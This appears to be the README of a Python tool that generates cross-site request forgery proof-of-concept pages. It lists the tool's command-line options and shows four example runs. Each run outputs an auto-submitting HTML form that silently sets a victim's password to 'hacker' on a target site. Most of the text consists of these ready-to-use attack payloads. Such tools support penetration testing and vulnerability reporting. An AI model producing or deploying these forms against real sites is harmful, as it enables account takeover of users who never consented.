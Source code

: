 # CSRF PoC Generator
This is a python script which generates PoC for Cross-site request forgery with autosubmit form. you just need to provide Url, method and parameters.


# Required Package

```python3 -m pip install yattag```

# Usage

# Options
```
root@ghost:~# python3 csrf_poc_gen.py -h
usage: csrf_poc_gen.py [-h] [-m METHOD] [-u URL] [-p PARAMETERS] [-a AUTHOR]
                       [-e ENCTYPE]

This is a pyhton script which generates PoC for Cross-site request forgery
with autosubmit form. you just need to provide Url, method and parameters.

optional arguments:
  -h, --help            show this help message and exit
  -m METHOD, --method METHOD
                        Method
  -u URL, --url URL     url
  -p PARAMETERS, --parameters PARAMETERS
                        Request parameters
  -a AUTHOR, --author AUTHOR
                        Name of Author
  -e ENCTYPE, --enctype ENCTYPE
                        enctype
```

# JSON Based CSRF PoC 

Note: Some applications accept Json data when Content-type: ```text/plain```.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p '{new_password: "hacker", re_password: "hacker", extra": =extra}' -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="{new_password: %22hacker%22, re_password: %22hacker%22, extra%22: " value="extra}" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

# To Generate PoC 

Note: Parameters should be in the form of key value pair (key=value&key=value).
```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" 
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# Enctype
it supports 3 enctype ```application/x-www-form-urlencoded```, ```multipart/form-data``` and ```text/plain```.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# With Discoverer Name

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -a "Hacker man"
<html>
  <title>
    This CSRF was found by Hacker man
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
